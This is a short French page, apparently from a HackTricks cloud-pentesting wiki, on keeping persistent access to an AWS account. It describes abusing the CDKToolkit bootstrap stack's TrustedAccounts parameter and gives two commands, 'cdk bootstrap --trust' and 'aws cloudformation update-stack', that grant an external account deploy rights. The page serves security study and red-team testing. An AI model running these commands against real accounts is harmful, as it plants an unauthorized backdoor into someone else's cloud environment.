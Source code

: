 # AWS - Cloudformation Persistence

{{#include ../../../banners/hacktricks-training.md}}

## CloudFormation

Pour plus d'informations, accédez à :

{{#ref}}
../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stack

Le AWS CDK déploie une pile CFN appelée `CDKToolkit`. Cette pile prend en charge un paramètre `TrustedAccounts` qui permet aux comptes externes de déployer des projets CDK dans le compte victime. Un attaquant peut en abuser pour se donner un accès indéfini au compte victime, soit en utilisant l'interface en ligne de commande AWS pour redéployer la pile avec des paramètres, soit l'interface en ligne de commande AWS CDK.
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../banners/hacktricks-training.md}}
